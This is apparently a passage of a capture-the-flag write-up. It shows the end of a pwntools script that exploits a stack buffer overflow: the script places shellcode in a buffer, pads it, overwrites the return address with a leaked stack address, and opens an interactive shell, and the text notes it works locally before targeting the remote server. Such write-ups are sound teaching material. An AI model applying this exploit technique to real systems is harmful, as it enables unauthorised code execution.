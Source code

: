 ```python

log.info(f"leak address of variable: {hex(leakVariable)}")

# shellcode were put in the first or in the beginning of the payload, because we will fill the buffer
# where shellcode will be stored in variable buf (first variable in function repair)
# after filling the buffer, we will call the variable buf to execute the shellcode
payload = shellcode
payload += b"A"*(offset-len(shellcode))
payload += p64(leakVariable)

print(payload)
s.sendline(payload)

s.interactive()

s.close()
```

Now we need to do is just run the program to make sure it works on local first!

![](img/sleigh-local.png)

It works! To access the server remotely, we need to add remote to server using host and port.
